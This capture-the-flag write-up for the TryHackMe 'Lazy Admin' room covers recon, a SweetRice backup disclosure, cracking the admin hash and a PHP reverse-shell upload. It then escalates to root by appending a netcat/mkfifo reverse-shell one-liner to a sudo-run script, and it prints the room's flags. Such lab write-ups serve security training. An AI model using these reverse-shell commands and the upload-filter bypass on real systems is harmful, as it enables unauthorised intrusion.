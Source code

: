 ![image2](https://github.com/user-attachments/assets/bd4dede4-bcb5-4dc9-b04e-80942c837d4c)# Lazy Admin

## Recon
### Port Scanning
```sh
└─$ nmap -sV -Pn 10.10.141.120 >> ports.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 20:47 EDT
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.29 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 20:47 EDT
Nmap scan report for 10.10.141.120
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.32 seconds
```

### Directory Enum
```sh
└─$ gobuster dir -u http://10.10.141.120/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt
```
```sh
/content
```
```sh
└─$ gobuster dir -u http://10.10.141.120/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt
```
```sh
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/_themes              (Status: 301) [Size: 320] [--> http://10.10.59.57/content/_themes/]
/.htaccess            (Status: 403) [Size: 276]
/as                   (Status: 301) [Size: 315] [--> http://10.10.59.57/content/as/]
/attachment           (Status: 301) [Size: 323] [--> http://10.10.59.57/content/attachment/]
/images               (Status: 301) [Size: 319] [--> http://10.10.59.57/content/images/]
/inc                  (Status: 301) [Size: 316] [--> http://10.10.59.57/content/inc/]
/index.php            (Status: 200) [Size: 2197]
/js                   (Status: 301) [Size: 315] [--> http://10.10.59.57/content/js/]                           
```


![image](https://github.com/user-attachments/assets/7090c604-8eb5-40a8-bff5-f864552e4a68)

- The site has been powered by `Sweetrice`
- Lets find some Vulnerability of It using `searchsploit`

### Searchsploit

```sh
└─$ searchsploit "sweetrice"                  
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion                                                                                               | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                                                                                            | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                                                                                             | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                               | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                   | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                          | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                     | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                                 | php/webapps/14184.txt
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
- `Backup Discloser` is looking Interesting

```sh
└─$ searchsploit -m 40718                     
  Exploit: SweetRice 1.5.1 - Backup Disclosure
      URL: https://www.exploit-db.com/exploits/40718
     Path: /usr/share/exploitdb/exploits/php/webapps/40718.txt
    Codes: N/A
 Verified: True
File Type: ASCII text
cp: overwrite '/home/bc-here/CTF{}/THM/lazyAdmin/40718.txt'? 
Copied to: /home/bc-here/CTF{}/THM/lazyAdmin/40718.txt

└─$ cat '/home/bc-here/CTF{}/THM/lazyAdmin/40718.txt'
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016


Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip

```
```sh
http://localhost/inc/mysql_backup
```
- This thing is pretty much interesting

- Lets try `http://10.10.141.120/content/inc//mysql_backup`

![image1](https://github.com/user-attachments/assets/0824843a-b7f4-4332-b163-6d4aba62e3f9)

### Checking For password

```sh
└─$ cat mysql_bakup_20191129023059-1.5.1.sql         
.
.
.
.
.
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";

```

- It looks like an MD5 hash
- used this for cracking (https://hashes.com/en/decrypt/hash)

```sh
42f749ade7f9e195bf475f37a44cafcb:Password123

```
>## ID : `manager`
>## Password : `Password123`

- ``
![image2](https://github.com/user-attachments/assets/af5d40bf-22f9-4fec-8df3-a74c2a4c7baf)


- After Login it gave me

![image3](https://github.com/user-attachments/assets/3d7bbce7-dd58-4196-a4d0-555f35665fe1)

- In the `media center` there is an option for upload

![image4](https://github.com/user-attachments/assets/dd11af56-293d-4fce-b5d4-e27501ed4f20)

- Its High time I didn't use the php shell buddy!

- I cp the php shell from `/usr/share/webpages/php/` and save it as `reverse_shell.php5` because the `.php` could be validated [Actually I have faced it before!]

## Getting Into

```sh
└─$ nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.17.88.30] from (UNKNOWN) [10.10.59.57] 57138
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 23:16:28 up  2:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls

```

```sh
$ cd home
$ ls
itguy
$ cd itguy
$ cat user.txt 
THM{63e5bce9271952aad1113b6f1ac28a07}
```
> ## user.txt : `THM{63e5bce9271952aad1113b6f1ac28a07}`

## Privilege Escalation
```sh
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.88.30 5554 >/tmp/f


```
- I have to echo the shell that we found from `copy.sh` , brh its literally saying it to copy in its name.

- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <This is your local machine ip> 5554 >/tmp/f"`

```sh
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.88.30 5554 >/tmp/f" >> /etc/copy.sh

$ sudo /usr/bin/perl /home/itguy/backup.pl


```

#### Magic!!

```sh
└─$ nc -nlvp 5554                            
listening on [any] 5554 ...
connect to [10.17.88.30] from (UNKNOWN) [10.10.59.57] 42202
/bin/sh: 0: can't access tty; job control turned off
# cd ../../root
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```

> ## root.txt : `THM{6637f41d0177b6f37cb20d775124699f}`
